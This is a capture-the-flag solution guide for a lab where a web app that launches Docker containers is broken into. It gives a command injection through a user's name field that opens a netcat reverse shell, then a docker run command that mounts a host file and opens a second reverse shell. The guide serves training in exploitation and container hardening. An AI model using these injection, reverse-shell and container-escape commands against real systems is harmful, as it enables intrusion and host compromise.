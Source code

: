# Jailbreak

_Solution Guide_

## Overview

As instructed in the challenge guide, download the server source code from the challenge server and view the schema. Inspecting these two items reveals that the server creates and launches containers using Docker. The overarching objective in this challenge is to access resources on a Docker host from within a container by taking advantage of a vulnerable configuration.

## Question 1

_/app/flag1.txt (in container)_

In this section, we will first break out of the web app and get a shell to its hosting container. This will enable us to directly run a `docker` command in order to access host resources.

- (Info) Analyzing the source code will reveal a command injection vulnerability in `src/controllers/container.py` in the `create_user_container` method of the controller, which calls the `run_container` function in `src/dockercli.py` with a user's first and last name as a container name.
- Start a listen server with `nc -lvp 4444` in a terminal tab.
- Note local IP with `ip a` (we will use `10.5.5.50` for this example)
- Do a command injection by making a user with a name containing `; nc 10.5.5.50 4444;`, for example:
    - `curl --request POST --data '{"first_name": "Test", "last_name": "; nc 10.5.5.50 4444 -e /bin/sh;"}' http://10.5.5.10/users`
- Then follow it with `curl --request POST http://10.5.5.10/containers/<created_user_id>`
- (Info) This should make the web app container connect to the listen server with a reverse shell.
- Flag 1 is in `/app/flag1.txt`. Retrieve it with `cat /app/flag1.txt` in the reverse shell.
- Keep the reverse shell open for the next part.

## Question 2

_/root/flag2.txt (out of container)_

Now we're going to exploit the fact that the container is able to access the host's Docker daemon in order to mount data from the host into a new container using a custom `docker` command. While concocting the command for the new container, we also want to get a shell to it and so we will tell it to connect to a another local `nc` server when we create it.

- Start a listen server with 'nc -lvp 4445' in another terminal tab.
- (Info) The challenge says that the second flag is at `/root/flag2.txt` outside of the container. This means we need a way to access resources on the docker host by escaping containment.
- (Info) The source code plainly shows that the container has the docker command line tool, and we will use it.
- (Info) List the networks available to containers with `docker network ls`. The source code shows the name of the image used, but they can be listed with `docker images`.
- (Info) Mounting a volume to a running container is possible but unsupported. It would be much easier to start a new container with the file we need already mounted:
    - `docker run --name test --net c14-net -d -v /root/flag2.txt:/flag2.txt jailbreak-pc22 nc 10.5.5.50 4445 -e /bin/sh`
- Flag 2 is at /flag2.txt in the new reverse shell. Retrieve it with `cat /flag2.txt`.
